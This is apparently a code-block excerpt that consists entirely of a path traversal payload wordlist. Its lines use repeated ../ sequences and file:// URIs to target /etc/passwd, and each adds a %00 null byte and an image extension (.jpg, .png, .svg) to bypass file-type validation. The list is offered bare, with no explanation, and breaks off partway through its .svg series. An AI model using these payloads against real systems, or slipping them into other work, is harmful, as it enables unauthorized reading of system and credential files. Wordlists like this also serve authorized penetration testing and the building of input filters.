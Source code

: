 ```bash
file://../../../../../../etc/passwd%00.jpg
file://../../../../../../../etc/passwd%00.jpg
file://../../../../../../../../etc/passwd%00.jpg
file://../../../../../../../../../etc/passwd%00.jpg
file://../../../../../../../../../../etc/passwd%00.jpg
file://../../../../../../../../../../../etc/passwd%00.jpg
file://../../../../../../../../../../../../etc/passwd%00.jpg
file://../../../../../../../../../../../../../etc/passwd%00.jpg
file://../../../../../../../../../../../../../../etc/passwd%00.jpg
file://../../../../../../../../../../../../../../../etc/passwd%00.jpg
../etc/passwd%00.png
../../etc/passwd%00.png
../../../etc/passwd%00.png
../../../../etc/passwd%00.png
../../../../../etc/passwd%00.png
../../../../../../etc/passwd%00.png
../../../../../../../etc/passwd%00.png
../../../../../../../../etc/passwd%00.png
../../../../../../../../../etc/passwd%00.png
../../../../../../../../../../etc/passwd%00.png
../../../../../../../../../../../etc/passwd%00.png
../../../../../../../../../../../../etc/passwd%00.png
../../../../../../../../../../../../../etc/passwd%00.png
../../../../../../../../../../../../../../etc/passwd%00.png
../../../../../../../../../../../../../../../etc/passwd%00.png
file:///etc/passwd%00.png
file://../etc/passwd%00.png
file://../../etc/passwd%00.png
file://../../../etc/passwd%00.png
file://../../../../etc/passwd%00.png
file://../../../../../etc/passwd%00.png
file://../../../../../../etc/passwd%00.png
file://../../../../../../../etc/passwd%00.png
file://../../../../../../../../etc/passwd%00.png
file://../../../../../../../../../etc/passwd%00.png
file://../../../../../../../../../../etc/passwd%00.png
file://../../../../../../../../../../../etc/passwd%00.png
file://../../../../../../../../../../../../etc/passwd%00.png
file://../../../../../../../../../../../../../etc/passwd%00.png
file://../../../../../../../../../../../../../../etc/passwd%00.png
file://../../../../../../../../../../../../../../../etc/passwd%00.png
../etc/passwd%00.svg
../../etc/passwd%00.svg
../../../etc/passwd%00.svg
../../../../etc/passwd%00.svg
../../../../../etc/passwd%00.svg
../../../../../../etc/passwd%00.svg
../../../../../../../etc/passwd%00.svg
../../../../../../../../etc/passwd%00.svg
../../../../../../../../../etc/passwd%00.svg
../../../../../../../../../../etc/passwd%00.svg
../../../../../../../../../../../etc/passwd%00.svg
../../../../../../../../../../../../etc/passwd%00.svg
../../../../../../../../../../../../../etc/passwd%00.svg
../../../../../../../../../../../../../../etc/passwd%00.svg
../../../../../../../../../../../../../../../etc/passwd%00.svg
file:///etc/passwd%00.svg
file://../etc/passwd%00.svg
file://../../etc/passwd%00.svg
file://../../../etc/passwd%00.svg
file://../../../../etc/passwd%00.svg
file://../../../../../etc/passwd%00.svg
file://../../../../../../etc/passwd%00.svg
```